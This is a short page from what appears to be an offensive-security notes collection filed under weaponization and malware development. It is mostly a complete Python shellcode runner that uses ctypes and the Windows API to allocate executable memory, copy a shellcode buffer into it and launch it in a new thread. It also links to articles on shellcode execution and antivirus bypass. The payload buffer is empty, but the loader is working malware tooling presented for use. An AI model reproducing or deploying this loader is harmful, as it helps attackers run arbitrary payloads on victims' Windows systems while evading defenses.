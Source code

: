 # Python

```python
import ctypes

shellcode = bytearray()
 
kernel32 = ctypes.windll.kernel32

VirtualAlloc = kernel32.VirtualAlloc
RtlMoveMemory = kernel32.RtlMoveMemory
CreateThread = kernel32.CreateThread
WaitForSingleObject = kernel32.WaitForSingleObject

pointer = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)),
                   ctypes.c_int(0x3000), ctypes.c_int(0x40))
 
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
 
RtlMoveMemory(ctypes.c_int(pointer), buf, ctypes.c_int(len(shellcode)))
 
handle_thread = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_int(pointer),
                  ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
 
WaitForSingleObject(ctypes.c_int(handle_thread),ctypes.c_int(-1))
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### Source Repositories

- https://momonguyen.com/2021/python-shellcode-runner/

- https://github.com/momo1239/buffshark-shellcode-runner

### Debasish Mandal

- [Debasish Mandal: Execute ShellCode Using Python](https://www.debasish.in/2012/04/execute-shellcode-using-python.html)

### Pentura Lab

- [Pentura Lab: Execute Shellcode, Bypassing Anti-Virus…](https://penturalabs.wordpress.com/2014/07/18/execute-shellcode-bypassing-anti-virus/)